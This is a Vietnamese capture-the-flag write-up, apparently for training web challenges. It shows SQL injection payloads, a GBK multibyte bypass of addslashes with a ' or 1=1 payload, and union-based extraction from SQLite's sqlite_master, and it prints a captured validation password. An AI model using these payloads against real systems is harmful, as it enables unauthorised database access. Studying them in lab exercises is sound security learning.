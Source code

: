 - Do đó nếu thêm dấu ' vào thì nó sẽ thành \\' thêm slashes vào.

- Vậy nếu chuyển thành GBK thì sẽ bypass được. 

- Thử truyền 1 mảng vào `login` thì có lỗi dùng `addslashes()`.

```
login[]=admin&password=admin
```

- Vì kí tự %bf%5c hay %af%5c là ký tự Trung Quốc nên ta chỉ gần thêm %bf thì hàm sẽ thêm %5c(\\) vô sau và trở thành ký tự Trung Quốc.

```
payload: login=%bf' or 1 = 1 -- -&& password = admin
```
- Sau khi ấn chuyển hướng trang:

```
Congratz! The validation password is: iMDaFlag1337!
```

# 40. SQL injection - String

- Thử nhập `test'` thì báo lỗi:

![1](img/40/Screenshot%20from%202023-01-27%2011-03-52.png)

=> SQLite3.

- Thử tìm số bảng bằng `recherche = 1' order by 3--` thì bị lỗi nên có 2 bảng.

- Tìm tên bảng bằng `UNION`:

```sql
recherche=1' union select NULL,sql from sqlite_master--
```

![1](img/40/Screenshot%20from%202023-01-27%2011-07-05.png)
